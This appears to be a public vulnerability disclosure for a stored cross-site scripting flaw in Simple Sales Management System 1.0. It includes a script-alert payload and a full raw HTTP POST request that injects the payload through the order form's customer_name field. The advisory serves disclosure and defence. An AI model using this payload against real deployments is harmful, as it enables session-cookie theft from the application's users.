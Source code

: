 #### Title: Simple Sales Management System 1.0 Stored Cross-Site Scripting
#### Author: Ashish Kumar (https://www.linkedin.com/in/ashish-kumar-0b65a3184)
#### Date: 03.07.2022
#### Vendor: https://www.sourcecodester.com/users/tips23
#### Software: https://www.sourcecodester.com/php-codeigniter-simple-sales-management-system-source-code
#### Version: 1.0
#### Reference: https://github.com/CyberThoth/CVE/blob/main/CVE/Simple%20Sales%20Management%20System/Cross%20Site%20Scripting(Stored)/POC.md

#### Description：
#### Simple Sales Management System is vulnerable to Stored cross-site scripting on the orders edit page. The "New Order" parameter in 'http://localhost/ci_ssms/index.php/orders' is vulnerable.

#### Impact:
 An attacker could steal cookies with a crafted URL sent to the victims.

#### Payload used:
`<script>alert("XSS")</script>`


### POC

```
POST /ci_ssms/index.php/orders/create HTTP/1.1
Host: localhost
Content-Length: 91
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/ci_ssms/index.php/orders/create
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: ci_session=ome77qk8e57r33fcfht2dktlgi421bj8
Connection: close

customer_name=%3Cscript%3Ealert%28%22XSS%22%29%3C%2Fscript%3E&products%5B%5D=21&qty%5B%5D=1
```

![image](https://github.com/CyberThoth/CVE/blob/d1a2fc603004a1be1a9069c8be1f99f8e72d882e/CVE/Simple%20Sales%20Management%20System/Cross%20Site%20Scripting(Stored)/1.png)

![image](https://github.com/CyberThoth/CVE/blob/d1a2fc603004a1be1a9069c8be1f99f8e72d882e/CVE/Simple%20Sales%20Management%20System/Cross%20Site%20Scripting(Stored)/2.png)
